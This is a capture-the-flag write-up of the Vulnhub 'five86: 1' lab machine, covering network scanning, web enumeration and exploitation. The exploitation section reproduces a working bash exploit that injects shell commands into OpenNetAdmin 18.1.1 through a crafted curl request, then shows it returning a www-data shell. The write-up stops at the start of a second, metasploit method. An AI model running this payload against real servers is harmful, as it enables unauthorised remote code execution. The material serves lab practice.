 # Vulnhub | five86: 1 Writeup (In Detail)
## [+] Machine Details

| INFO | Description |
| --- | --- |
| [+] Machine Name -> | ``five86: 1`` |
| [+] Release Date -> | ``8 Jan 2020`` |
| [+] Difficulty -> | ``Easy/Medium`` |
| [+] Download -> | [Download Link](https://www.vulnhub.com/entry/five86-1,417/) |
| [+] Writeup By -> | ``@pwn4magic`` - `Discord : pwn4magic#8707` |
| [+] VM Maker -> | [@DCAU7](https://twitter.com/@DCAU7) |
| [+] OS -> | ``GNU/Linux`` :penguin: |


## [+] Table of contents
* 0x00 Quick Summary
* 0x01 Enumeration
  * Finding Target's IP Address
  * nmap
  * Web Enumeration / gobuster
* 0x02 Exploitation
  * OpenNetAdmin 18.1.1 - Remote Code Execution (Method1 - bash script / shell as www-data)
  * OpenNetAdmin 18.1.1 - Remote Code Execution (Method2 - metasploit / shell as www-data) 
* 0x03 Privilege Escalation
  * 
  * 
  
# 0x00 Quick Summary

I enjoyed doing this box very much, wasn't too easy but not hard too the best combo. The entry point is a pretty straight forward, after that we have multiple privilege escalations! Let's start.

# 0x01 Enumeration
## Finding Target's IP Address
Let's find target's IP address, i always use `arp-scan`.
```
[root@pwn4magic]:~# arp-scan --localnet | grep VMware
192.168.1.12	00:0c:29:f0:cc:28	VMware, Inc.
```

## nmap

```
[root@pwn4magic]:~/Documents/vulnhub/five86_1# nmap -sC -sV -p- -oN nmap 192.168.1.12
Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-20 14:01 EET
Nmap scan report for five86-1.zte.com.cn (192.168.1.12)
Host is up (0.000083s latency).
Not shown: 65532 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 69:e6:3c:bf:72:f7:a0:00:f9:d9:f4:1d:68:e2:3c:bd (RSA)
|   256 45:9e:c7:1e:9f:5b:d3:ce:fc:17:56:f2:f6:42:ab:dc (ECDSA)
|_  256 ae:0a:9e:92:64:5f:86:20:c4:11:44:e0:58:32:e5:05 (ED25519)
80/tcp    open  http    Apache httpd 2.4.38 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/ona
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
10000/tcp open  http    MiniServ 1.920 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
MAC Address: 00:0C:29:F0:CC:28 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Enumeration / gobuster

Let's start by enumerating port 80, the webpage has nothing totally blank.
```html
<html>
<body>
</body>
</html>
```

Let's run gobuster.

```
[root@pwn4magic]:~/Documents/vulnhub/five86_1# gobuster -q dir -u http://192.168.1.12/ -w /root/Desktop/raft-large-directories.txt -x .php,.txt
/reports (Status: 401)
/robots.txt (Status: 200)
```

`robots.txt` let's check.

```
User-agent: *
Disallow: /ona
```

Awesome, OpenNetAdmin! Let's search for possible exploits.

```
[root@pwn4magic]:~/Documents/vulnhub/five86_1# searchsploit -w OpenNetAdmin
OpenNetAdmin 13.03.01 - Remote Code Execution                                                                                               https://www.exploit-db.com/exploits/26682
OpenNetAdmin 18.1.1 - Remote Code Execution                                                                                                 https://www.exploit-db.com/exploits/47691
```

# 0x02 Exploitation
## OpenNetAdmin 18.1.1 - Remote Code Execution (Method1 - bash script / shell as www-data)

Let's try to exploit first bash script way. [Exploit Link](https://www.exploit-db.com/exploits/47691)

First let's copy the main code & save it into a file.

```
[root@pwn4magic]:~/Documents/vulnhub/five86_1# touch onaexp.sh
[root@pwn4magic]:~/Documents/vulnhub/five86_1# nano onaexp.sh 
[root@pwn4magic]:~/Documents/vulnhub/five86_1# cat onaexp.sh 
#!/bin/bash

URL="${1}"
while true;do
 echo -n "$ "; read cmd
 curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
[root@pwn4magic]:~/Documents/vulnhub/five86_1# chmod +x onaexp.sh  
[root@pwn4magic]:~/Documents/vulnhub/five86_1# ./onaexp.sh http://192.168.1.12/ona/
$ whoami; hostname
www-data
five86-1
$ 
```

## OpenNetAdmin 18.1.1 - Remote Code Execution (Method2 - metasploit / shell as www-data) 

Now let's try to exploit metasploit way! [Exploit Link](https://www.exploit-db.com/exploits/47772)
Sadly exploit doesnt exist on msf yet, so we need to import it manual. lol


